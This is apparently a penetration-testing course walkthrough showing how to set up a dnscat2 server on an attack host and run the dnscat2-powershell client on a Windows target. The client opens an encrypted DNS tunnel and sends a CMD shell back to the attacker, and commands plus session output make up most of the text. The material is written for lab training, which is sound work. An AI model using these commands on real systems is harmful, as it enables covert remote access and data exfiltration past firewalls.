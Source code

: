 [Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. 
* It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. 
* Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. 
* However, with dnscat2, the address resolution is requested from an external server. 
* When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. 
* Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. 
* For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.

## Setting Up & Using dnscat2

If dnscat2 is not already set up on our attack host, we can do so using the following commands:

#### Cloning dnscat2 and Setting Up the Server

DNS Tunneling with Dnscat2

```shell-session
canklesmaks@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

We can then start the dnscat2 server by executing the dnscat2 file.

#### Starting the dnscat2 server

DNS Tunneling with Dnscat2

```shell-session
canklesmaks@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. 
* We can use the client with the dnscat2 project 
* or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. 
* We can clone the project containing the client file to our attack host, then transfer it to the target.

#### Cloning dnscat2-powershell to the Attack Host

DNS Tunneling with Dnscat2

```shell-session
canklesmaks@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.

#### Importing dnscat2.ps1

DNS Tunneling with Dnscat2

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

DNS Tunneling with Dnscat2

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

#### Confirming Session Establishment

DNS Tunneling with Dnscat2

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

We can list the options we have with dnscat2 by entering `?` at the prompt.

#### Listing dnscat2 Options

DNS Tunneling with Dnscat2

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements. 
* We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. 
* Let's interact with our established session and drop into a shell.

#### Interacting with the Established Session

DNS Tunneling with Dnscat2

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```